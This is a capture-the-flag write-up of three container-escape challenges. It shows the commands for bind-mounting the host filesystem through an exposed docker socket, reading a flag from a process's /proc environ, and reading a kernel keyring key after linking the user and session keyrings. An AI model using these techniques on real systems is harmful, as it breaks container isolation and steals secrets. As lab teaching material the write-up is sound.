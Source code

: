 
# 2010

## Intro

The history of containers in software can be traced 
back to the early days of Unix, in the late 1970s. The
first container-like technology was the chroot system 
call, which allows a process to be isolated from the  
rest of the system by restricting its access to a     
specific directory tree. 

## Challenge 0

> Containers are a great way to isolate different
> processes from each other. There's a flag on the
> host, but from inside the container, you can't
> see it. Neat right?
>
> HINT: try `'--mount type=bind,src=/sys,target=/sys'`

We connect to the attached server and can immediately see a docker image getting loaded:

```console
┌──(user@kali)-[/media/sf_CTFs/google/2010/0]
└─$ socat -,raw,echo=0 tcp:container1.2023-bq.ctfcompetition.com:1337
== proof-of-work: disabled ==
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
4693057ce236: Loading layer  7.626MB/7.626MB
884e494c8042: Loading layer  30.68MB/30.68MB
Loaded image: alpine:bqctf
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
01d94a7d7194:/#
```

Let's see if we can run docker commands:

```console
01d94a7d7194:/# docker container ls -a
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```

There's a problem communicating with the docker daemon, but maybe the socket path is just different
than the default?

```console
01d94a7d7194:/# find / -name docker.sock 2>/dev/null
/tmp/docker.sock
```

We can set an environment variable to change the default path to the docker daemon:

```console
01d94a7d7194:/# export DOCKER_HOST=unix:///tmp/docker.sock
```

Now we can repeat the previous command successfully:

```console
01d94a7d7194:/# docker container ls -a
CONTAINER ID   IMAGE          COMMAND       CREATED          STATUS          PORTS     NAMES
01d94a7d7194   alpine:bqctf   "/bin/bash"   54 seconds ago   Up 54 seconds             magical_engelbart
```

The hint shows us how to map a folder between the host and the guest, let's use a similar syntax
to map the root folder:

```console
01d94a7d7194:/# docker run -it --mount type=bind,src=/sys,target=/sys --mount type=bind,src=/,target=/Root alpine:bqctf
/ # ls /Root
bin     etc     lib     libx32  opt     run     sys     var
boot    flag    lib32   media   proc    sbin    tmp
dev     home    lib64   mnt     root    srv     usr
```

There's the flag.

```console
/ # cat /Root/flag
FLAG{YourSocksAreUntied}
```

## Challenge 1

> Sharing is caring, and sometimes containers can share
> things with the host. But hopefully not the flag.

Let's connect to the provided server:

```console
┌──(user@kali)-[/media/sf_CTFs/google/2010/1]
└─$ socat -,raw,echo=0 tcp:container2.2023-bq.ctfcompetition.com:1337
== proof-of-work: disabled ==
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
4693057ce236: Loading layer  7.626MB/7.626MB
884e494c8042: Loading layer  30.68MB/30.68MB
Loaded image: alpine:bqctf
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
```

Do we have a docker daemon?

```console
58db94dcc552:/# find / -name docker.sock 2>/dev/null
58db94dcc552:/#
```

No, we don't. Now what? Let's check the running processes:

```console
58db94dcc552:/# ps
PID   USER     TIME  COMMAND
    1 root      0:00 /bin/bash /home/user/start.sh
    2 root      0:00 containerd --root /tmp/containerd_root --state /tmp/contai
    4 root      0:00 dockerd -H unix:///tmp/docker.sock --containerd=/tmp/conta
   39 root      1:07 /bin/bash /home/user/flag.sh
   50 root      0:00 docker --log-level fatal -H unix:///tmp/docker.sock run --
   64 root      0:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 58db9
   83 root      0:00 /bin/bash
   99 root      0:00 ps
```

Process 39 seems interesting, let's take a look at it via `/proc`:

```console
58db94dcc552:/# cat /proc/39/environ && echo
FLAG=FLAG{DontPutSecretsInEnvironmentVariables}PWD=/home/userSHLVL=0_=/bin/bash
58db94dcc552:/#
```

The flag: `FLAG{DontPutSecretsInEnvironmentVariables}`

## Challenge 2

> Ok this time we put the flag in a secure storage
> location. I read it's not namespaced but that
> shouldn't matter.
> 
> HINT: The key to this one is knowing what syscalls
> should be blocked.

Connecting to the server and looking around, we find this interesting utility:

```console
┌──(user@kali)-[/media/sf_CTFs/google/2010]
└─$ socat -,raw,echo=0  tcp:container3.2023-bq.ctfcompetition.com:1337
== proof-of-work: disabled ==
486588461
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
4693057ce236: Loading layer  7.626MB/7.626MB
1e21bddc5961: Loading layer  4.278MB/4.278MB
b0d94721e884: Loading layer  6.081MB/6.081MB
Loaded image: alpine:bqctf
WARNING: Error loading config file: /root/.docker/config.json: open /root/.docker/config.json: permission denied
3e721f118d0f:/# ./amicontained
Container Runtime: not-found
Has Namespaces:
        pid: true
        user: true
User Namespace Mappings:
        Container -> 0  Host -> 1000    Range -> 1000
AppArmor Profile: unconfined
Capabilities:
        BOUNDING -> chown dac_override fowner fsetid kill setgid setuid setpcap net_bind_service net_raw sys_chroot mknod audit_write setfcap
Seccomp: filtering
Blocked Syscalls (56):
        MSGRCV SYSLOG SETSID USELIB USTAT SYSFS SETPRIORITY VHANGUP PIVOT_ROOT _SYSCTL ACCT SETTIMEOFDAY MOUNT UMOUNT2 SWAPON SWAPOFF REBOOT SETHOSTNAME SETDOMAINNAME IOPL IOPERM CREATE_MODULE INIT_MODULE DELETE_MODULE GET_KERNEL_SYMS QUERY_MODULE QUOTACTL NFSSERVCTL GETPMSG PUTPMSG AFS_SYSCALL TUXCALL SECURITY LOOKUP_DCOOKIE CLOCK_SETTIME VSERVER MBIND SET_MEMPOLICY GET_MEMPOLICY KEXEC_LOAD ADD_KEY REQUEST_KEY MIGRATE_PAGES FUTIMESAT UNSHARE MOVE_PAGES UTIMENSAT PERF_EVENT_OPEN FANOTIFY_INIT OPEN_BY_HANDLE_AT SETNS KCMP FINIT_MODULE KEXEC_FILE_LOAD BPF USERFAULTFD
Looking for Docker.sock
```

It gives us a list of blocked syscalls. To complement this information, we can call `capsh` to get a list of blocked and allowed capabilities:

```console
3e721f118d0f:/# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0 (no-new-privs=0)
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
Guessed mode: HYBRID (4)
```

Now, as the hint says, it would be useful to know which syscalls should be blocked. Docker itself gives us such a list
[in the official documentation](https://docs.docker.com/engine/security/seccomp/). If we compare both lists, we end up 
with just a few syscalls that should be blocked but aren't:

 * `clone`: Deny cloning new namespaces. Also gated by `CAP_SYS_ADMIN` for `CLONE_*` flags, except `CLONE_NEWUSER`.
 * `keyctl`: Prevent containers from using the kernel keyring, which is not namespaced.
 * `personality`: Prevent container from enabling BSD emulation. Not inherently dangerous, but poorly tested, potential for a lot of kernel vulns.

Out of the three, `keyctl` seems the most interesting, so let's go ahead and try snooping around:

```console
3e721f118d0f:/# keyctl show @u
Keyring
1028701301 --alswrv      0 65534  keyring: _uid.0
 486588461 --alswrv      0     0   \_ user: flag
```

The `keyctl show @u` command in Linux is used to display information about the keys in the user keyring.
We can see, that within the user keyring (`_uid.0`) there's a key with ID `486588461` which has
the description of `flag`. Great!, let's read it:

```console
3e721f118d0f:/# keyctl print 486588461
keyctl_read_alloc: Permission denied
```

Well, that didn't work, permission is denied. But if we search for this symptom, we can find
[this GitHub issue](https://github.com/systemd/systemd/issues/5522#issuecomment-309226589), which
suggests a workaround - to link the user keyring to the session keyring:

```console
3e721f118d0f:/# keyctl link @u @s
```

After running this command, we can finally see the contents of the key, which happens to be
the flag:

```console
3e721f118d0f:/# keyctl print 486588461
:hex:464c41477b446964596f754b6e6f77546869734b657972696e67457869737465647d0a
3e721f118d0f:/# keyctl pipe 486588461
FLAG{DidYouKnowThisKeyringExisted}
```